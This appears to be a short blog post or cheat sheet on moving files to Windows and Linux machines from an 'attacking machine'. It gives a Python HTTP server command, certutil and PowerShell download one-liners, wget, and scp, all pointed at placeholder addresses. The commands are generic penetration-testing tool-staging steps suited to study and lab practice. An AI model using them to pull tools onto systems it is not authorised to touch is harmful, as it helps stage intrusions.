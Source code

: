 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


File transfer between Linux and Windows

# File Transfer

Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine.

## Using Python

<font size= "5"> 
```bash
python3 -m  http.server  PORT_NUMBER
```
</font>
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```